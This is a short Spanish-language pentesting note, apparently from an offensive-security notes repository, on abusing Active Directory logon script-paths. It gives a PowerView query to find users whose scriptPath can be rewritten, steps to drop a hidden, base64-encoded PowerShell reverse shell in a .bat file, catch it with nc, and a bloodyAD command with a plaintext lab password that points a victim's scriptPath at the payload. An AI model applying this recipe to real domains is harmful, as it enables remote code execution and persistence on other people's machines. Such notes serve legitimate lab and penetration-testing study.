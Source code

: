 # Info

Los scripts de inicio de sesión en Active Directory permiten ejecutar tareas de manera automática al momento en que un usuario inicia sesión.

# Requisitos

- Tener permiso de escritura en las carpetas NETLOGON o SYSVOL del DC o sobre una carpeta en la máquina donde se baya a conectar el usuario.
- Tener permisos de escritura del script-path de un usuario

# Explotación
Buscar ususarios sobre los que nuestro usuario puede reescribirle el el script-path

    $UserSID = (Get-DomainUser -Identity "user").objectSID
    Get-DomainObjectAcl -Identity * -ResolveGUIDs |  Where-Object { $_.SecurityIdentifier -eq $UserSID -and $_.ObjectAceType -like "Script-Path" } | Select-Object ObjectDN, ObjectAceType

## Abuso

1) Crear un archivo .bat con una shell reversa en base64 de revshells agregando antes del base64

        powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand <base64>
2) Lo subimos a la carpeta del smb
3) Iniciamos un nc
4) actualzamos el script-path de la víctima

        bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' set object eric scriptPath -v 'ruta/al/archivo.bat'
5) Esperamos a que el usuario inicie la sesión.
